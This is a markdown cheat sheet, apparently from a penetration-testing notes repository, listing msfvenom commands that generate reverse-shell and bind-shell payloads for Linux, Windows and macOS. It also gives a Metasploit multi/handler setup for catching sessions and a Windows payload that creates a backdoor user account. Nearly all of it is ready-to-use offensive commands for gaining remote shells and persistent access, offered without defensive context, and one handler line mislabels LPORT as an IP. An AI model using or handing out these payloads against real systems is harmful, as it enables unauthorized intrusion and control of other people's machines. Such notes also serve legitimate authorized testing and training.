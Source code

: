 Encoding payloads

```bash
msfvenom -p <Payload> -e <encoder> -f <format> -i <encode count> LHOST=$me LPORT=$mePort
```

#### Examples from Thor-Sec:

Handler Setup for Meterpreter:

```bash
msfconsole -q
use exploit/multi/handler
set PAYLOAD <PAYLOAD>
set LHOST <IP>
set LPORT <IP>
set ExitOnSession false
exploit -j -z
```

#### Linux Payloads

Reverse Shell
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell.elf
```

Bind Shell
```bash
msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=<IP> LPORT=<PORT> -f elf > shell.elf
```

#### Windows

Reverse Shell
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell.exe
```

Bind Shell
```bash
msfvenom -p windows/meterpreter/bind_tcp RHOST= <IP> LPORT=<PORT> -f exe > shell.exe
```

CMD Shell
```bash
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell.exe
```

User Creation
```bash
msfvenom -p windows/adduser USER=hacker PASS=password -f exe > useradd.exe
```

#### Mac

Reverse Shell
```bash
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f macho > shell.macho
```
